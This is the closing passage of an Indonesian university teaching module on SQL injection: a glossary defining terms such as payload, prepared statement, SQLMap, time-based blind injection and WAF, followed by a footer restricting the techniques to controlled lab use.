| Payload | Kode atau data yang disisipkan oleh penyerang untuk mengeksploitasi kerentanan |
| Prepared Statement | Istilah lain untuk parameterized query |
| Sanitasi | Proses membersihkan input dari karakter-karakter berbahaya |
| SQL | Structured Query Language, bahasa standar untuk berinteraksi dengan database relasional |
| SQLMap | Tool open-source untuk deteksi dan eksploitasi SQL injection otomatis |
| Time-Based | Teknik blind injection yang menggunakan delay waktu untuk menyimpulkan informasi |
| UNION | Operator SQL untuk menggabungkan hasil dari multiple query |
| Validasi | Proses memeriksa apakah input memenuhi kriteria yang diharapkan |
| WAF | Web Application Firewall, sistem yang memfilter traffic HTTP untuk mendeteksi serangan |
| Whitelist | Pendekatan keamanan yang hanya mengizinkan input yang secara eksplisit diperbolehkan |

---

*Modul ini disusun untuk keperluan pembelajaran mata kuliah Pengantar Keamanan Siber di Program Studi Informatika, Universitas Pertahanan RI. Penggunaan teknik-teknik yang dibahas dalam modul ini hanya diperbolehkan dalam lingkungan lab yang terkontrol dan untuk tujuan pembelajaran.*
